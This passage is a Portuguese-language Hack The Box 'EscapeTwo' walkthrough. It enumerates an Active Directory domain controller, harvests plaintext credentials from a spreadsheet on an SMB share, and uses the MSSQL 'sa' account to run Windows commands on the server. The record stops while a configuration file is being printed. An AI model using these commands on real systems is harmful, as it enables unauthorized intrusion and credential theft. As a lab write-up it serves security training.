



# Hackeando Windows Server Active Directory - Hack The Box EscapeTwo CTF

Neste passo a passo vou te mostrar como consegui ganhar acesso ao servidor do alvo, utilizando técnicas e falhas conhecidas do Windows Server e Active Directory.

Caso queira realizar esse CTF aqui está o link do laboratório: [https://app.hackthebox.com/machines/EscapeTwo](https://app.hackthebox.com/machines/EscapeTwo)

**ATENÇÃO:** *Todas as técnicas e conhecimento passados nesse conteúdo foram testadas em ambiente controlado sob o domínio da plataforma Hack The Box, não realize tais atividades sem a devida autorização em alvos reais!*


Durante um CTF eu particularmente gosto de passar por 3 etapas principais:

1. Reconhecimento & Varredura
    - Coletar o máximo de informações possível sobre o alvo.
    - Conhecê-lo é a etapa mais importante, pois te da a direção correta sobre quais ferramentas e técnicas utilizar para cumprir cada etapa.
    - Uso de técnicas de passive reconnaissance (como consulta a bases de dados públicas, como WHOIS e DNS) e active reconnaissance (como varreduras de portas e serviços).
- Identificar vulnerabilidades, pontos fracos e possíveis falhas nos sistemas e serviços encontrados.
- Varredura de portas e serviços (Nmap, Nessus, OpenVAS).
    - Identificação de versões de softwares e sistemas operacionais.
    - Identificação de falhas em protocolos de comunicação e em configurações erradas.
    - Enumeração de usuários e sistemas disponíveis (com o uso de ferramentas como enum4linux, SMB, SNMP).
1. Ganho de acesso (Exploitation)
    - Explorar as vulnerabilidades identificadas para obter acesso ao sistema ou rede.
    - Exploração de falhas como SQL injection, execução remota de código (RCE), buffer overflow, entre outras.
        - Uso de ferramentas como Metasploit, Burp Suite ou técnicas personalizadas.
        - Obtenção de credenciais e acesso sobre o sistema.
2. Escalação de privilégios
    - Obter acesso total a todo o sistema como administrador caso o primeiro acesso seja limitado

Agora que já temos tudo mapeado, *bora hackear!*

# Reconhecimento & Varredura

Logo de cara quando acessamos a máquina temos as credenciais do nosso usuário que vamos utilizar como ponto de partida, como se o atacante tivesse obtido já algum nível de acesso.



```
Username: rose
Password: KxEPkKe6R8su
```

Para fazer o reconhecimento do nosso alvo, eu utilizei o bom e velho ***NMAP.***

```bash
┌─[parrot@parrot]─[~/Desktop/escape2/]
└──╼ $sudo nmap -T4 -sV -sV -A 10.10.11.51
[sudo] password for parrot: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-05 20:29 -03
Nmap scan report for sequel.htb (10.10.11.51)
Host is up (0.15s latency).
Not shown: 988 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-02-05 23:29:34Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-02-05T23:31:01+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-02-05T23:31:01+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_ms-sql-ntlm-info: ERROR: Script execution failed (use -d to debug)
|_ssl-date: 2025-02-05T23:31:01+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-02-05T17:40:17
|_Not valid after:  2055-02-05T17:40:17
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
|_ssl-date: 2025-02-05T23:31:01+00:00; +1s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-02-05T23:31:01+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=DC01.sequel.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.sequel.htb
| Not valid before: 2024-06-08T17:35:00
|_Not valid after:  2025-06-08T17:35:00
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019 (88%)
Aggressive OS guesses: Microsoft Windows Server 2019 (88%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-02-05T23:30:24
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

TRACEROUTE (using port 139/tcp)
HOP RTT       ADDRESS
1   154.31 ms 10.10.14.1
2   154.40 ms sequel.htb (10.10.11.51)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 104.22 seconds

```

- **`sudo`** → Executa o Nmap com privilégios administrativos, necessário para algumas opções avançadas.
- **`nmap`** → Comando para rodar o Nmap, uma ferramenta de varredura de rede.
- **`T4`** → Define a velocidade da varredura como **agressiva** (nível 4), tornando o escaneamento mais rápido, mas podendo gerar mais tráfego.
- **`sC`** → Usa scripts padrão do Nmap (`-script=default`) para obter mais informações sobre os serviços detectados.
- **`sV`** → Tenta identificar as versões dos serviços em execução nas portas abertas.
- **`A`** → Ativa várias opções avançadas, como:
    - **Detecção do sistema operacional** (`O`).
    - **Detecção de versão de serviços** (`sV`).
    - **Execução de scripts padrão** (`sC`).
    - **Traceroute** (`-traceroute`).
- **`10.10.11.51`** → IP do alvo.

Com base na saída do nosso scan podemos ver que se trata de um ***Windows Server 2019***  cujo nome de domínio é ***sequel.htb***

| Porta | Estado | Serviço | Descrição Importante |
| --- | --- | --- | --- |
| **53** | Open | **DNS** | Indica que o servidor atua como **DNS** do domínio |
| **88** | Open | **Kerberos** | Confirma que o servidor é um **Controlador de Domínio (DC)** |
| **135** | Open | **RPC** | Usado para chamadas de procedimento remoto no Windows |
| **139** | Open | **NetBIOS-SSN** | Pode indicar compartilhamentos de arquivos antigos no Windows |
| **389** | Open | **LDAP** | Indica **Active Directory** (pode ser explorado para enumerar usuários) |
| **445** | Open | **SMB** | Serviço de compartilhamento de arquivos (pode ter vulnerabilidades) |
| **464** | Open | **Kerberos kpasswd5** | Indica suporte para alteração de senhas via Kerberos |
| **593** | Open | **RPC over HTTP** | Usado para executar chamadas remotas via HTTP |
| **636** | Open | **LDAPS** | LDAP Seguro (SSL/TLS) para **Active Directory** |
| **1433** | Open | **Microsoft SQL Server 2019** | **Banco de Dados** disponível para exploração |
| **3268** | Open | **Global Catalog (LDAP)** | Permite consulta rápida ao AD (pode revelar contas de usuários) |
| **3269** | Open | **Global Catalog SSL (LDAPS)** | Versão segura do catálogo |

Agora que obtemos todas essas informações, temos aqui alguns serviços que já são conhecidos da comunidade do hacking que são famosos por ter falhas exploradas no passado. Por isso vamos começar enumerando o nosso serviço de ***SMB.*** A ferramenta que eu estou utilizando para isso é o ***netexec***, mas você pode utilizar outras como ***smbmap*** e ***crackmapexec.***

Usuários

```bash
┌─[parrot@parrot]─[~/Desktop/escape2/]
└──╼ $nxc smb 10.10.11.51 -u 'rose' -p 'KxEPkKe6R8su' --users
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.51     445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su
SMB         10.10.11.51     445    DC01             -Username-                    -Last PW Set-       -BadPW- -Description-
SMB         10.10.11.51     445    DC01             Administrator                 2024-06-08 16:32:20 0       Built-in account for administering the computer/domain
SMB         10.10.11.51     445    DC01             Guest                         2024-12-25 14:44:53 0       Built-in account for guest access to the computer/domain
SMB         10.10.11.51     445    DC01             krbtgt                        2024-06-08 16:40:23 0       Key Distribution Center Service Account
SMB         10.10.11.51     445    DC01             michael                       2024-06-08 16:47:37 0
SMB         10.10.11.51     445    DC01             ryan                          2024-06-08 16:55:45 0
SMB         10.10.11.51     445    DC01             oscar                         2024-06-08 16:56:36 0
SMB         10.10.11.51     445    DC01             sql_svc                       2024-06-09 07:58:42 0
SMB         10.10.11.51     445    DC01             rose                          2024-12-25 14:44:54 0
SMB         10.10.11.51     445    DC01             ca_svc                        2025-02-05 23:42:28 0
SMB         10.10.11.51     445    DC01             [*] Enumerated 9 local users: SEQUEL
```

Compartilhamentos

```bash
[parrot@parrot]─[~/Desktop/escape2/]
└──╼ $nxc smb 10.10.11.51 -u 'rose' -p 'KxEPkKe6R8su' --shares
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.51     445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su
SMB         10.10.11.51     445    DC01             [*] Enumerated shares
SMB         10.10.11.51     445    DC01             Share           Permissions     Remark
SMB         10.10.11.51     445    DC01             -----           -----------     ------
SMB         10.10.11.51     445    DC01             Accounting Department READ
SMB         10.10.11.51     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.51     445    DC01             C$                              Default share
SMB         10.10.11.51     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.51     445    DC01             NETLOGON        READ            Logon server share
SMB         10.10.11.51     445    DC01             SYSVOL          READ            Logon server share
SMB         10.10.11.51     445    DC01             Users           READ
```

Computadores

```bash
┌─[parrot@parrot]─[~/Desktop/escape2/]
└──╼ $nxc smb 10.10.11.51 -u 'rose' -p 'KxEPkKe6R8su' --computers
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.51     445    DC01             [+] sequel.htb\rose:KxEPkKe6R8su
SMB         10.10.11.51     445    DC01             [+] Enumerated domain computer(s)
SMB         10.10.11.51     445    DC01             sequel.htb\DC01$
```

Você também pode obter informações sobre usuários e grupos por meio do ***RPC.***

```bash
┌─[parrot@parrot]─[~/Desktop/escape2/]
└──╼ $rpcclient -U 'rose%KxEPkKe6R8su' 10.10.11.51
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[michael] rid:[0x44f]
user:[ryan] rid:[0x45a]
user:[oscar] rid:[0x45c]
user:[sql_svc] rid:[0x462]
user:[rose] rid:[0x641]
user:[ca_svc] rid:[0x647]
rpcclient $> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44e]
group:[Management Department] rid:[0x642]
group:[Sales Department] rid:[0x643]
group:[Accounting Department] rid:[0x644]
group:[Reception Department] rid:[0x645]
group:[Human Resources Department] rid:[0x646]
rpcclient $>
```

Bom, agora que temos muita informação interessante, vou começar a procurar por arquivos que podem ter a nossa primeira flag quem sabe!


Sabendo que rose tem acesso ao compartilhamento, vou começar olhando em “***Accounting Department***”, afinal, se eu fosse um criminoso isso me chamaria atenção, pois aqui podem conter dados sensíveis e confidenciais de uma organização.

# Ganho de acesso (Exploitation)

Então para acessar os documentos dessa pasta compartilhada, vou utilizar o seguinte comando:

```bash
┌─[✗]─[parrot@parrot]─[~/Desktop/escape2/]
└──╼ $smbclient "//10.10.11.51/Accounting Department" -U "rose%KxEPkKe6R8su"
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jun  9 07:52:21 2024
  ..                                  D        0  Sun Jun  9 07:52:21 2024
  accounting_2024.xlsx                A    10217  Sun Jun  9 07:14:49 2024
  accounts.xlsx                       A     6780  Sun Jun  9 07:52:07 2024

                6367231 blocks of size 4096. 911923 blocks available
smb: \> get accounts.xlsx
getting file \accounts.xlsx of size 6780 as accounts.xlsx (10,6 KiloBytes/sec) (average 10,6 KiloBytes/sec)
smb: \>
```

Logo de cara temos dois arquivos, que sim, eu tentei abrir na minha máquina, mas o LibreOffice não foi capaz de abrir, como se o arquivo estivesse corrompido, ou em um formato diferente, como se estivesse lendo binários. Então resolvi inspecionar esse arquivo com alguns comandos, mas o que resolveu foi o ***file.***

```bash
┌─[parrot@parrot]─[~/Desktop/escape2/]
└──╼ $file accounts.xlsx
accounts.xlsx: Zip archive data, made by v2.0, extract using at least v2.0, last modified, last modified Sun, Jun 09 2024 10:47:44, uncompressed size 681, method=deflate
```

Como vocês podem ver, o arquivo está “***zipado***”, nesse caso eu então resolvi utilizar o gerenciador de arquivos do meu ***ParrotOS*** chamado ***Engrampa.*** 

O comando é bem simples:

```bash
engrampa accounts.xlsx
engrampa accounting_2024.xlsx
```

Isso vai abrir uma janela com tudo contido dentro do arquivo .xlsx.

Feito isso comecei a procurar e olhar o conteúdo de todos os arquivos, até que encontrei ***sharedStrings.xml.***

Nesse arquivo encontrei credenciais de usuários além da ***rose*** que podem nos levar a alguma coisa

```bash
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<sst xmlns="http://schemas.openxmlformats.org/spreadsheetml/2006/main" count="25" uniqueCount="24">
    <si><t xml:space="preserve">First Name</t></si>
    <si><t xml:space="preserve">Last Name</t></si>
    <si><t xml:space="preserve">Email</t></si>
    <si><t xml:space="preserve">Username</t></si>
    <si><t xml:space="preserve">Password</t></si>

    <si><t xml:space="preserve">Angela</t></si>
    <si><t xml:space="preserve">Martin</t></si>
    <si><t xml:space="preserve">angela@sequel.htb</t></si>
    <si><t xml:space="preserve">angela</t></si>
    <si><t xml:space="preserve">0fwz7Q4mSpurIt99</t></si>

    <si><t xml:space="preserve">Oscar</t></si>
    <si><t xml:space="preserve">Martinez</t></si>
    <si><t xml:space="preserve">oscar@sequel.htb</t></si>
    <si><t xml:space="preserve">oscar</t></si>
    <si><t xml:space="preserve">86LxLBMgEWaKUnBG</t></si>

    <si><t xml:space="preserve">Kevin</t></si>
    <si><t xml:space="preserve">Malone</t></si>
    <si><t xml:space="preserve">kevin@sequel.htb</t></si>
    <si><t xml:space="preserve">kevin</t></si>
    <si><t xml:space="preserve">Md9Wlq1E5bZnVDVo</t></si>

    <si><t xml:space="preserve">NULL</t></si>
    <si><t xml:space="preserve">sa@sequel.htb</t></si>
    <si><t xml:space="preserve">sa</t></si>
    <si><t xml:space="preserve">MSSQLP@ssw0rd!</t></si>
</sst>

```

Bom, agora você pode testar cada um dos usuários e ver até onde eles podem te levar, mas convenhamos que logo de cara algo chama a atenção de qualquer atacante.

O usuário ***sa@sequel.htb*** com a senha ***MSSQLP@ssw0rd!*** que muito sugestivamente nos leva a crer que se trata de um acesso a um banco de dados SQL Server como pudemos observar lá no nosso ***NMAP*** mais cedo.

Usando aqui o comando ***nxc*** podemos listar os módulos de ataque disponíveis ******na ferramenta:

```bash
┌─[parrot@parrot]─[~/Desktop/escape2/
└──╼ $nxc mssql 10.10.11.51 -u 'sa' -p 'MSSQLP@ssw0rd!' --local-auth --list
LOW PRIVILEGE MODULES
[*] mssql_priv                Enumerate and exploit MSSQL privileges

HIGH PRIVILEGE MODULES (requires admin privs)
[*] empire_exec               Uses Empire's RESTful API to generate a launcher for the specified listener and executes it
[*] met_inject                Downloads the Meterpreter stager and injects it into memory
[*] nanodump                  Get lsass dump using nanodump and parse the result with pypykatz
[*] test_connection           Pings a host
[*] web_delivery              Kicks off a Metasploit Payload using the exploit/multi/script/web_delivery module
```

Podemos testar o que é possível obter do ***mssql_priv***

```bash
┌─[parrot@parrot]─[~/Desktop/escape2/]
└──╼ $nxc mssql 10.10.11.51 -u 'sa' -p 'MSSQLP@ssw0rd!' --local-auth --module mssql_priv
MSSQL       10.10.11.51     1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.10.11.51     1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
MSSQL_PRIV  10.10.11.51     1433   DC01             [+] sa is already a sysadmin
```

Podemos perceber que o usuário ***sa*** é o sysadmin do banco de dados. Com base nisso podemos começar nossa exploração.

```bash
┌─[parrot@parrot]─[~/Desktop/escape2/]
└──╼ $nxc mssql 10.10.11.51 -u 'sa' -p 'MSSQLP@ssw0rd!' --local-auth -q 'SELECT name FROM sys.database_principals'
MSSQL       10.10.11.51     1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.10.11.51     1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
MSSQL       10.10.11.51     1433   DC01             name:public
MSSQL       10.10.11.51     1433   DC01             name:dbo
MSSQL       10.10.11.51     1433   DC01             name:guest
MSSQL       10.10.11.51     1433   DC01             name:INFORMATION_SCHEMA
MSSQL       10.10.11.51     1433   DC01             name:sys
MSSQL       10.10.11.51     1433   DC01             name:##MS_PolicyEventProcessingLogin##
MSSQL       10.10.11.51     1433   DC01             name:##MS_AgentSigningCertificate##
MSSQL       10.10.11.51     1433   DC01             name:db_owner
MSSQL       10.10.11.51     1433   DC01             name:db_accessadmin
MSSQL       10.10.11.51     1433   DC01             name:db_securityadmin
MSSQL       10.10.11.51     1433   DC01             name:db_ddladmin
MSSQL       10.10.11.51     1433   DC01             name:db_backupoperator
MSSQL       10.10.11.51     1433   DC01             name:db_datareader
MSSQL       10.10.11.51     1433   DC01             name:db_datawriter
MSSQL       10.10.11.51     1433   DC01             name:db_denydatareader
MSSQL       10.10.11.51     1433   DC01             name:db_denydatawriter
```

Uma técnica conhecida no mundo do hacking é o de execução de comandos ***Windows*** através do ***MSSQL***, e podemos fazer isso com o ***nxc*** passando a flag ***-x <cmd>***

```bash
┌─[parrot@parrot]─[~/Desktop/escape2/]
└──╼ $nxc mssql 10.10.11.51 -u 'sa' -p 'MSSQLP@ssw0rd!' --local-auth -x "dir C:\Users"
MSSQL       10.10.11.51     1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.10.11.51     1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
MSSQL       10.10.11.51     1433   DC01             [+] Executed command via mssqlexec
MSSQL       10.10.11.51     1433   DC01             Volume in drive C has no label.
MSSQL       10.10.11.51     1433   DC01             Volume Serial Number is 3705-289D
MSSQL       10.10.11.51     1433   DC01             Directory of C:\Users
MSSQL       10.10.11.51     1433   DC01             06/09/2024  05:42 AM    <DIR>          .
MSSQL       10.10.11.51     1433   DC01             06/09/2024  05:42 AM    <DIR>          ..
MSSQL       10.10.11.51     1433   DC01             12/25/2024  03:10 AM    <DIR>          Administrator
MSSQL       10.10.11.51     1433   DC01             02/05/2025  12:18 PM    <DIR>          Public
MSSQL       10.10.11.51     1433   DC01             06/09/2024  03:15 AM    <DIR>          ryan
MSSQL       10.10.11.51     1433   DC01             06/08/2024  03:16 PM    <DIR>          sql_svc
MSSQL       10.10.11.51     1433   DC01             0 File(s)              0 bytes
MSSQL       10.10.11.51     1433   DC01             6 Dir(s)   3,732,992,000 bytes free
```


Bom, agora chegamos a algum lugar, e aqui o céu é o limite para explorar e tentar encontrar falhas, ou no nosso caso a primeiro flag.

Eu confesso que gastei um bom tempo aqui olhando arquivos e pastas por todo canto. Porém eu deixei escapar um detalhe muito simples e que estava na minha cara o tempo todo e que um SysAdmin não deveria deixar passar nesse caso 🥲.

Se nós temos um banco de dados ***MSSQL2019*** rodando em uma máquina que por baixo dos panos é um ***Windows***, ela deve ter uma pasta padrão onde são instalados todos os drivers e são armazenados os arquivos de configuração, certo? E esse foi o pulo do gato….

O que eu não sabia era que essa pasta é escondida por padrão e não aparece na listagem do nxc, então se você não conhecer a estrutura do ***SQLServer*** e do ***Windows*** você vai sofrer para encontrá-la.

```bash
┌─[parrot@parrot]─[~/Desktop/escape2/]
└──╼ $nxc mssql 10.10.11.51 -u 'sa' -p 'MSSQLP@ssw0rd!' --local-auth -x "dir C:\SQL2019"
MSSQL       10.10.11.51     1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.10.11.51     1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
MSSQL       10.10.11.51     1433   DC01             [+] Executed command via mssqlexec
MSSQL       10.10.11.51     1433   DC01             Volume in drive C has no label.
MSSQL       10.10.11.51     1433   DC01             Volume Serial Number is 3705-289D
MSSQL       10.10.11.51     1433   DC01             Directory of C:\SQL2019
MSSQL       10.10.11.51     1433   DC01             06/08/2024  02:07 PM    <DIR>          .
MSSQL       10.10.11.51     1433   DC01             06/08/2024  02:07 PM    <DIR>          ..
MSSQL       10.10.11.51     1433   DC01             01/03/2025  07:29 AM    <DIR>          ExpressAdv_ENU
MSSQL       10.10.11.51     1433   DC01             0 File(s)              0 bytes
MSSQL       10.10.11.51     1433   DC01             3 Dir(s)   3,731,857,408 bytes free
```

A pasta **`ExpressAdv_ENU`** geralmente está relacionada a uma instalação do **Microsoft SQL Server**. Quando você vê esse nome de pasta, é uma indicação de que ela pode ser uma parte de uma instalação **express** (versão simplificada) ou **avançada** do SQL Server, com a configuração em **Inglês (ENU)**. Essa pasta pode ter sido criada durante o processo de instalação de uma versão do **SQL Server Express** ou de uma edição **Advanced** (com funcionalidades adicionais).

```bash
┌─[parrot@parrot]─[~/Desktop/escape2/]
└──╼ $nxc mssql 10.10.11.51 -u 'sa' -p 'MSSQLP@ssw0rd!' --local-auth -x "dir C:\SQL2019\ExpressAdv_ENU"
MSSQL       10.10.11.51     1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.10.11.51     1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
MSSQL       10.10.11.51     1433   DC01             [+] Executed command via mssqlexec
MSSQL       10.10.11.51     1433   DC01             Volume in drive C has no label.
MSSQL       10.10.11.51     1433   DC01             Volume Serial Number is 3705-289D
MSSQL       10.10.11.51     1433   DC01             Directory of C:\SQL2019\ExpressAdv_ENU
MSSQL       10.10.11.51     1433   DC01             01/03/2025  07:29 AM    <DIR>          .
MSSQL       10.10.11.51     1433   DC01             01/03/2025  07:29 AM    <DIR>          ..
MSSQL       10.10.11.51     1433   DC01             06/08/2024  02:07 PM    <DIR>          1033_ENU_LP
MSSQL       10.10.11.51     1433   DC01             09/24/2019  09:03 PM                45 AUTORUN.INF
MSSQL       10.10.11.51     1433   DC01             09/24/2019  09:03 PM               788 MEDIAINFO.XML
MSSQL       10.10.11.51     1433   DC01             06/08/2024  02:07 PM                16 PackageId.dat
MSSQL       10.10.11.51     1433   DC01             06/08/2024  02:07 PM    <DIR>          redist
MSSQL       10.10.11.51     1433   DC01             06/08/2024  02:07 PM    <DIR>          resources
MSSQL       10.10.11.51     1433   DC01             09/24/2019  09:03 PM           142,944 SETUP.EXE
MSSQL       10.10.11.51     1433   DC01             09/24/2019  09:03 PM               486 SETUP.EXE.CONFIG
MSSQL       10.10.11.51     1433   DC01             06/08/2024  02:07 PM               717 sql-Configuration.INI
MSSQL       10.10.11.51     1433   DC01             09/24/2019  09:03 PM           249,448 SQLSETUPBOOTSTRAPPER.DLL
MSSQL       10.10.11.51     1433   DC01             06/08/2024  02:07 PM    <DIR>          x64
MSSQL       10.10.11.51     1433   DC01             7 File(s)        394,444 bytes
MSSQL       10.10.11.51     1433   DC01             6 Dir(s)   3,731,771,392 bytes free
```

Obviamente arquivos de configuração chamam atenção e nesse caso não foi diferente, assim que bati os olhos no  ***sql-Configuration.INI***  fui direto ver o que tinha nele, e advinha só o que encontrei . . . 

```bash
┌─[parrot@parrot]─[~/Desktop/escape2/]
└──╼ $nxc mssql 10.10.11.51 -u 'sa' -p 'MSSQLP@ssw0rd!' --local-auth -x "type C:\SQL2019\ExpressAdv_ENU\sql-Configuration.INI"
MSSQL       10.10.11.51     1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.10.11.51     1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
MSSQL       10.10.11.51     1433   DC01             [+] Executed command via mssqlexec
MSSQL       10.10.11.51     1433   DC01             [OPTIONS]
MSSQL       10.10.11.51     1433   DC01             ACTION="Install"
